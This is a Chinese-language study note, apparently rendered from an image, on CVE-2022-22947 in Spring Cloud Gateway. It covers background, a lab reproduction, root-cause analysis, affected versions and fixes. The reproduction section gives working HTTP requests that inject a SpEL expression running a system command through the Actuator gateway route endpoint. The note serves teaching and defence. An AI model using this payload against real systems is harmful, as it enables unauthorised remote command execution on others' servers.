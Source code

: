 ```markdown
# CVE-2022-22947 Spring Cloud Gateway RCE 漏洞笔记
 
## 目录
1. [基本介绍](#基本介绍)
2. [漏洞复现](#漏洞复现)
3. [原理分析](#原理分析)
4. [扫描与修复](#扫描与修复)
5. [法律声明](#法律声明)

---

## 基本介绍

### 微服务架构与 Spring Cloud
- **架构和技术栈**：  
  - 服务注册与发现（Eureka、Consul）  
  - 配置中心（Spring Cloud Config、Nacos）  
  - 网关解决方案（Zuul、Spring Cloud Gateway）  
  - 容错限流（Hystrix、Sentinel）  
  - 监控与调用链追踪（Zipkin、Sleuth）

### Spring Cloud 生态
- **核心组件**：  
  - Eureka、Ribbon、OpenFeign、Hystrix、Zuul  
  - Gateway、Consul、Bus、Stream  
  - Nacos、Sentinel、Seata  

### 网关作用与解决方案
- **网关功能**：  
  - 智能路由、负载均衡、协议转换  
  - 权限校验、限流熔断、API监控  
- **常见方案**：  
  - Netflix Zuul  
  - Spring Cloud Gateway  
  - Kong  
  - Nginx + Lua  

### Spring Cloud Gateway 核心概念
- **三要素**：  
  - **路由（Route）**：定义请求转发规则  
  - **断言（Predicate）**：匹配请求的条件  
  - **过滤器（Filter）**：处理请求和响应的逻辑  

### Spring Boot Actuator
- **功能**：  
  - 健康检查、审计、统计、HTTP追踪  
- **集成配置**：  
  ```properties
  management.endpoint.gateway.enabled=true
  management.endpoints.web.exposure.include=gateway
  ```

---

## 漏洞复现

### 环境搭建
- **启动方式**：  
  1. 本地工程  
  2. Vulhub（Docker Compose）  
  3. Vulfocus.io 靶场  
  4. 自研靶场（如八方网域）  

### 漏洞利用步骤
6. **添加恶意路由过滤器**  
   ```http
   POST /actuator/gateway/routes/hacktest HTTP/1.1
   Host: localhost:9000
   Content-Type: application/json

   {
     "id": "hacktest",
     "filters": [{
       "name": "AddResponseHeader",
       "args": {
         "name": "Result",
         "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream())}"
       }
     }],
     "uri": "http://example.com"
   }
   ```

7. **刷新路由配置**  
   ```http
   POST /actuator/gateway/refresh HTTP/1.1
   Host: localhost:9000
   ```

8. **触发漏洞**  
   ```http
   GET /actuator/gateway/routes/hacktest HTTP/1.1
   Host: localhost:9000
   ```

### 执行结果
- 响应中返回命令执行结果（如当前用户 `whoami`）。

---

## 原理分析

### 漏洞成因
9. **Actuator 接口暴露**：开启 `/actuator/gateway` 接口后，攻击者可动态添加路由。  
10. **SpEL 表达式注入**：`AddResponseHeader` 过滤器的 `value` 字段支持 SpEL 表达式，未做安全过滤。  
11. **动态加载机制**：通过 `/refresh` 接口触发路由更新，恶意表达式被解析执行。  

### 关键代码分析
- **ShortcutConfigurable 类**：  
  在解析过滤器参数时，若值以 `#` 开头，会调用 `SpEL` 解析器执行表达式。  
  ```java
  if (rawValue != null && rawValue.startsWith("#")) {
      Expression expression = parser.parseExpression(rawValue);
      value = expression.getValue(context);
  }
  ```

---

## 扫描与修复

### 影响范围
- Spring Cloud Gateway < 3.1.1  
- Spring Cloud Gateway < 3.0.7  

### 检测工具
- **ZoomEye**：搜索 `app="vmware-SpringBoot-framework"`  
- **批量检测脚本**：如 `scan.py`  

### 修复方案
12. **升级版本**：  
   - Spring Cloud Gateway >= 3.1.1  
   - Spring Cloud Gateway >= 3.0.7  
13. **禁用 Actuator 接口**：  
   ```yaml
   management.endpoint.gateway.enabled: false
   ```
14. **临时缓解**：  
   - 限制 `/actuator/gateway` 接口的访问权限  

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本课程内容仅用于防御性教学演示，严禁用于非法用途。**

```